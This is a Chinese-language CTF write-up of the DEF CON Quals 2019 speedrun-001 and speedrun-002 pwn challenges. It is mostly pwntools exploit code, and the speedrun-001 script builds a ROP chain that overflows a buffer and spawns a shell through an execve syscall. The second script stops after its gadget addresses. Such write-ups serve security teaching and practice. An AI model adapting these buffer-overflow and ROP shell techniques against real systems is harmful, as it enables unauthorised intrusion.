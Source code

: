 ```yaml
---
title: DCQ2019_speedrun1-5
date: 2019-05-14 20:06:56
tags: 
---
```

Easy challenges in DCQ


# start
[ALL exp&binary ][1]
# speedrun-001
挺简单的一题溢出但是很玄学的是本地打通了远端打不通...
但是我发现居然是概率打通..我脚本没改过有时候打得通有时候打不通..玄学问题.
比较简单的题目就直接放exp了
```python

from pwn import *
from struct import pack

puts=0x000000000410390
read=0x0000000004498A0
rax=0x0000000000415664
rdi=0x0000000000400686
bss=0x006b6000+0x3000
rsi=0x00000000004101f3
rdx=0x00000000004498b5
sys=0x0000000000474e65
setvbuf=0x000000000410590
push_rdi=0x00000000004236a5
push_rax_push_rsp=0x0000000000450ae3
rdx_rsi=0x000000000044be39
context.log_level='debug'
context.arch="amd64"
p=process('./speedrun-001')
#p=remote("52.53.247.202",31337)
#gdb.attach(p,'b * 0x000000000400B8B')

#p64(rdi)+p64(0x00000000006b9140)+p64(rsi)+p64(0)+p64(rdx)+p64(2)+p64(setvbuf)
payload='\x00'*0x408+p64(rdi)+p64(0)+p64(rdx_rsi)+p64(8)+p64(bss)+p64(rax)+p64(0)+p64(sys)
payload+=p64(rax)+p64(0x3b)+p64(rdi)+p64(bss)+p64(rdx_rsi)+p64(0)+p64(0)+p64(sys)



p.sendafter("words?\n",payload.ljust(0x7d0,'\x00'))

p.sendafter(" say: \n","/bin/sh\x00")
#p.sendline("cat flag")
p.interactive()
```
# speedrun-002
* bof
```python
from pwn import *
puts=0x0000000004005B0
rdi=0x00000000004008a3
got=0x000000000601028
reuse=0x00000000040074C
#context.log_level='debug'
```